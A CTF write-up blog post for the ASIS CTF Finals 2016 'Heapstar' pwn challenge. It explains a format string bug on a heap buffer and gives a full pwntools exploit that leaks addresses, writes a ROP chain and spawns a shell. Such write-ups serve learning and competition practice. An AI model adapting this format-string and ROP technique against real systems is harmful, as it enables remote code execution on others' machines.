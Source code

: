 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/12/asis-ctf-finals-2016-heapstar/
date: "2016-09-12T02:27:02+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "format-string-attack" ]
---
```


# ASIS CTF Finals 2016: Heapstar

Not difficult. It seems that I solved with non-expected solution (because I didn't use the `hp*` and `list*` function), but I like this.

## solution

There is a format string bug, but the writable buffer is on the heap.
We can rewrite only the places whose address is on the stack.
There are the `argv` and `argv[0]`.
I used `argv` to modify the least byte of `argv[0]`, `argv[0]` to construct a payload on somewhere of stack, and the payload to rewrite the return address.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='heapstar.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=1337, type=int)
parser.add_argument('--no-echo', action='store_true')
args = parser.parse_args()
context.arch = 'x86_64'
# context.log_level = 'debug'

elf = ELF('./heapstar')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

p = remote(args.host, args.port)
# p = process('./heapstar')
# args.no_echo = True

def cmd(c, s=None):
    p.recvuntil('>> ')
    p.sendline(c)
    if not args.no_echo:
        assert p.recv(len(c) + 2) == c + '\r\n'
    assert (c == 'i') == (s is not None)
    if c == 'i':
        if not args.no_echo:
            assert p.recv(6) == 'Data: '
        p.sendline(s)
        if not args.no_echo:
            assert p.recv(len(s + '\r\n')) == s + '\r\n'
    if c == 'p':
        s = p.recvuntil('>> ', timeout=1)
        if s:
            p.unrecv('>> ')
            return s[: -3 ]
        else:
            return ''

def fsa(s):
    log.info('format string attack: %s', repr(s))
    cmd('c')
    cmd('i', s)
    s = cmd('p')
    log.info('    =>  %s', repr(s))
    return s

# leak addresses
heap_base = int(fsa('%19$p'), 16) - 0x10
log.info('heap_base: %#x', heap_base)
libc_start_main = int(fsa('%21$p'), 16) - 240 # %21$s: <__libc_start_main+240>
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)
argv = int(fsa('%23$p'), 16) # %23$s: argv (char **)
log.info('argv: %#x', argv)
argv_0 = int(fsa('%49$p'), 16) # %49$s: argv[0] (char *)
log.info('argv[0]: %#x', argv_0)

# prepare buffer
fsa('%23$hhn')
k = (argv_0 - argv_0 % 0x100 - argv) // 8 + 49
log.info('k: %d', k) # %k$p: argv[0][0] (char[8])
def seek(i):
    if i == 0:
        i = 256
    fsa('%{}c%23$hhn'.format(i))
def putc(c):
    c = ord(c)
    if c == 0:
        c = 256
    fsa('%{}c%49$hhn'.format(c))
def puts(s):
    for i, c in enumerate(s):
        seek(i)
        putc(c) # write char by char

# writing test
puts('AAAABBBB\0')
seek(0)
assert fsa('%49$s') == 'AAAABBBB'
assert int(fsa('%{}$p'.format(k)), 16) == u64('AAAABBBB')

# do rop
def puts2(addr, s):
    payload = ''
    for i in range(len(s)):
        payload += p64(addr + i)
    puts(payload) # write addresses to write on
    l = 0
    payload = ''
    for i, c in enumerate(s):
        if ord(c) != l:
            payload += '%{}c'.format((ord(c) - l) % 256)
        payload += '%{}$hhn'.format(k + i)
        l = ord(c)
    fsa(payload)
pop_rdi_ret = ROP(elf).find_gadget(['pop rdi']).address
bin_sh = libc_base + next(libc.search('/bin/sh\0'))
system = libc_base + libc.symbols['system']
stack = argv - 0x160 # top at printf
chain = ''.join([ p64(x) for x in [ pop_rdi_ret, bin_sh, system ] ])
puts2(stack, chain)

time.sleep(1)
p.sendline('id')
p.interactive()
```
